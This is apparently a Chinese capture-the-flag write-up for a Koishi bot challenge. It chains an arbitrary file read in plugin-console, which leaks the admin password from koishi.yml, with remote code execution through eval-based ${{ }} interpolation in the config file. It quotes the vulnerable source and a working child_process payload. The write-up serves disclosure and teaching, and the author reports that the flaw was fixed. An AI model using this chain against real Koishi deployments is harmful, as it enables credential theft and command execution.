







## 514's_Heart

> Koishi has locked her heart in the root directory, leaving only one message: “It’s all about the plugin-console”. Please go and retrieve her heart again.(Also see “514’s_Heart” for misc)

首先向各位师傅道个歉这道题自始至终没声明koishi版本为latest，QAQ

该漏洞已告知作者并完成修复：https://github.com/koishijs/webui/pull/362

访问环境，auth插件开启需登录才可进入后台



根据题目描述定位到插件`@koishijs/plugin-console`



`@koishijs/plugin-console/src/node/index.ts`下，注意到当路径以@plugin-开头并且不为js文件时直接读取文件



存在任意文件读取：



koishi会将所有插件的配置写在koishi.yml中，当然，包括auth插件的用户名和密码。

同时得到提示需要rce，环境不出网

```
as you can see, you now get the password of admin, try to rce without adding any plugins! gogogo! (The container network has been restricted. Please do not attempt any supply chain attacks. Let’s work together to maintain the security of the Koishi community.)
```



拿到密码后成功登录进入后台，这之后攻击面就非常广了，理论上来说供应链攻击是很方便的，但是出题人不让XD

下面提供预期解法：

koishi的配置文件koishi.yml支持插值法`${{ expr }}`，参考[章节](https://koishi.chat/zh-CN/guide/develop/config.html#%E4%BD%BF%E7%94%A8%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F)

官方给出案例中的`${{ env.DISCORD_TOKEN }}`很容易让人思考是否存在js代码执行

在`@koishijs/loader/src/shared.ts`中找到对插值的处理逻辑：

```typescript
interpolate(source: any) {
  if (typeof source === 'string') {
    return interpolate(source, this.params, /\$\{\{(.+?)\}\}/g)
  } else if (!source || typeof source !== 'object') {
    return source
  } else if (Array.isArray(source)) {
    return source.map(item => this.interpolate(item))
  } else {
    return valueMap(source, item => this.interpolate(item))
  }
}
```

并在`@koishijs/utils/src/string.ts`中找到interpolate()的实现，非常明显的代码执行，eval()的参数expr直接由我们传入，因为这里使用`new Function`去动态执行内容，因此无法直接获取到require，需要使用global全局变量间接加载模块

```typescript
const evaluate = new Function('context', 'expr', `
  try {
    with (context) {
      return eval(expr)
    }
  } catch {}
`) as ((context: object, expr: string) => any)

export function interpolate(template: string, context: object, pattern = /\{\{([\s\S]+?)\}\}/g) {
  let capture: RegExpExecArray
  let result = '', lastIndex = 0
  while ((capture = pattern.exec(template))) {
    if (capture[0] === template) {
      return evaluate(context, capture[1])
    }
    result += template.slice(lastIndex, capture.index)
    result += evaluate(context, capture[1]) ?? ''
    lastIndex = capture.index + capture[0].length
  }
  return result + template.slice(lastIndex)
}
```

因此只需要找一个地方能修改配置文件的，传入`${{global.process.mainModule.constructor._load('child_process').exec('whoami > pwned.txt')}}`，重载配置后重新打开插件即可reload新配置



在explorer下即可读到命令执行结果



如通过explorer修改node_module下lib中的文件并重新加载插件等其他方法也可，不做赘述